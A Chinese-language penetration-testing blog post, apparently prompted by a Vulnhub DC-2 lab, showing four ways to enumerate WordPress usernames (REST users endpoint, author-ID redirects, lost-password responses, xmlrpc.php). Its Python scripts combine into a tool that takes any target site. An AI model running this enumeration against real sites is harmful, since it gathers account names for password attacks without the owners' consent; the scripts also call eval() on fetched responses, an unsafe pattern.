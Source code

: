 ```yaml
---
layout:     post
title:      总结wordpress枚举用户名的四种方式
subtitle:   如何枚举wordpress用户名？
date:       2019-06-29
author:     木已成舟
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 渗透测试
---
```

# 前言
前几天在做Vulnhub DC-2 靶机的时候，80端口上的Web应用程序是WordPress，当时想用WPScan来枚举用户的，但是Kali Linux 和Parrot OS 上的WPScan都用不了了。于是，我上了google去搜了一些关于WordPress枚举用户的文章，顺便记录一下，以后实战中遇到WordPress的站可以多一些尝试！
# 方式
## 方式一：利用接口
通过这个接口，可以获取到部分的用户名
```
/index.php/wp-json/wp/v2/users/?per_page=100&page=1
```
如下图所示，找到了2个用户名，虽然不全，但是也是一个可以利用的点：
![图片](../../../../img/wp-user-1.png)

下面通过Python脚本来自动实现：
```
import requests

users_list = []
headers = {'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36'}

response = requests.get(target + "/index.php/wp-json/wp/v2/users/?per_page=100&page=1",headers=headers)
r_text = eval(response.text)
for i in range(0,10):
    users_list.append(r_text[i]['name'])
```

## 方式二：利用遍历author参数
如果存在author为1的，就会重定向到作者页面
```
/?author=1
```
如下图所示，可以看到页面的标题变成了admin，因此可以通过脚本来做到枚举用户名：
![图片](../../../../img/wp-user-2.png)
python代码如下：
```
import requests
from bs4 import BeautifulSoup
users_list = []

for i in range(1,10):
    r = requests.get(target+"/?author=%s" % i)
    if r.status_code == 200:
        con = r.content
        soup = BeautifulSoup(con, "html.parser")
        title = soup.head.title.string
        title = title.strip()
        title = title.split("–")
        title = title[0].strip()
        if title not in users_list:
            users_list.append(title)
```
## print(users_list)

方式三：后台忘记密码功能
由于后台密码忘记功能那里，会让你输入用户名，如果存在就302重定向到下一个页面，如果不存在状态码是200。因此写了一个python脚本：
```
import requests
users_list = []

post_headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36',
           'Content-Type':'application/x-www-form-urlencoded'}
usernames = open("users_list.txt","r",encoding='utf-8',errors='ignore')
for user in usernames:
    user = user.strip()
    data = "user_login=%s&redirect_to=&wp-submit=Get+New+Password" % user
    forget_r = requests.post(target + "/wp-login.php?action=lostpassword",headers=post_headers,data=data,allow_redirects=False)
    if forget_r.status_code == 302:
        if user not in users_list:
            users_list.append(user)
print(users_list)
usernames.close()
```

## 方式四：通过xmlrpc.php
这个方法，我这本地测试没成功，国外有一篇文章写的很详细，可以看一下：[https://medium.com/@the.bilal.rizwan/wordpress-xmlrpc-php-common-vulnerabilites-how-to-exploit-them-d8d3c8600b32](https://medium.com/@the.bilal.rizwan/wordpress-xmlrpc-php-common-vulnerabilites-how-to-exploit-them-d8d3c8600b32)

# Python脚本自动化
### 代码
这里就把上述的三种方式整合一下，打造一个用来枚举WordPress用户名的小工具。
```
#!/usr/bin/python
# -*- coding:utf-8 -*-
# wirter:En_dust
# Blog:https://www.opensource-sec.com/
import requests
from bs4 import BeautifulSoup
users_list = []
headers = {'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36'}

def enumerat_user(target):
    try:
        response = requests.get(target + "/index.php/wp-json/wp/v2/users/?per_page=100&page=1",headers=headers)
        r_text = eval(response.text)
        for i in range(0,10):
            users_list.append(r_text[i]['name'])
    except:
        pass
    finally:
        print(users_list)

    for i in range(1,10):
        r = requests.get(target+"/?author=%s" % i)
        if r.status_code == 200:
            con = r.content
            soup = BeautifulSoup(con, "html.parser")
            title = soup.head.title.string
            title = title.strip()
            title = title.split("–")
            title = title[0].strip()
            if title not in users_list:
                users_list.append(title)
    print(users_list)

    post_headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36',
               'Content-Type':'application/x-www-form-urlencoded'}
    usernames = open("users_list.txt","r",encoding='utf-8',errors='ignore')
    for user in usernames:
        user = user.strip()
        data = "user_login=%s&redirect_to=&wp-submit=Get+New+Password" % user
        forget_r = requests.post(target + "/wp-login.php?action=lostpassword",headers=post_headers,data=data,allow_redirects=False)
        if forget_r.status_code == 302:
            if user not in users_list:
                users_list.append(user)
    print(users_list)
    usernames.close()


def main():
    print("WordPress枚举用户名工具")
    website = input("输入一个由WordPress搭建的网站：")
    enumerat_user(website)


if __name__ == '__main__':
```
    main()


